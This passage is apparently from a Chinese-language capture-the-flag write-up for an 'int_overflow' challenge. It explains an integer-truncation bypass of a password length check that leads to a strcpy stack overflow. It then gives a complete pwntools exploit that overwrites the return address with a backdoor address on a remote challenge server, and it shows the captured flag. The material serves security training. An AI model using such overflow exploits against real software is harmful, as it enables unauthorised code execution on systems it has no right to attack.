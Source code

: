 ```c
    puts("Success");
    fflush(stdout);
    result = strcpy(&dest, s);
	//dest_stack_size==0xb
	//s_stack_size(max_passwd_stack_size)==0x200
  }
  return result;
}
```

v3需要在4到8之间，可以转变为260-264截断，这里的payload的长度为262.

有后门函数。

payload：

```python
from pwn import *
#io  = process("./int_overflow")
io  = remote('111.200.241.244',47612)
back_door_addr = 0x08048694 
io.sendlineafter("choice:",'1')
io.sendlineafter("username:","aaaa")
payload = 'a'*(0x14 + 4 ) + p32(back_door_addr) + 'a'*233
io.sendlineafter("passwd:", payload)
io.interactive()
```

flag：

```
yutao@pwnbaby:~/Desktop$ python 1.py 
[+] Opening connection to 111.200.241.244 on port 47612: Done
[*] Switching to interactive mode

Success
cyberpeace{570351d22dfa4892efd56550fe59aa63}
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to 111.200.241.244 port 47612
```



